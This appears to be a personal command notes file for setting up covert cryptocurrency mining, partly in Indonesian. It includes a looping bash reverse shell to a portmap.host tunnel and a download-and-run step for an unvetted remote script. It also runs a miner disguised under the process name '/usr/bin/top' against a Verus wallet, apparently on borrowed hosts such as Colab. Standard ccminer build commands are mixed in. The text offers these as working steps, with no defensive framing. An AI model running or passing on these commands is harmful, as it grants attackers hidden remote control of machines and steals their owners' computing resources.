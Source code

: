 fuser -k 4055/tcp
npm i dotenv (install modul dotenv di node)
while true; do bash -c 'bash -i >& /dev/tcp/evaldana-36710.portmap.host/22703 0>&1'; sleep 10; done
evaldana-36710.portmap.host:22703 => 4050
#### dependence ccmine

apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential

wget https://raw.githubusercontent.com/hudahadoh/vs/main/vs.sh && chmod +x vs.sh && ./vs.sh && rm vs.sh && cd /usr/bin

./bhmax -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.py1 -p x -t 1
werkol-28870.portmap.host:28870 => 4052
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.ZX5 -p x -t 85
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.l4 -p x -t 1


### git clone --single-branch -b  Verus2.2gpu https://github.com/monkins1010/ccminer.git
git clone --single-branch -b Verus2.2gpu https://github.com/monkins1010/ccminer.git (gpu nvidia)
git clone --single-branch -b Verus2.2 https://github.com/monkins1010/ccminer.git  (cpu only)

cd ccminer

chmod +x build.sh

chmod +x configure.sh

chmod +x autogen.sh

./build.sh

./ccminer  -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RRT2bJnHu9n1Qzh4crRZZKFoX3HXrtTDer.colabs3  -p x  -t 4
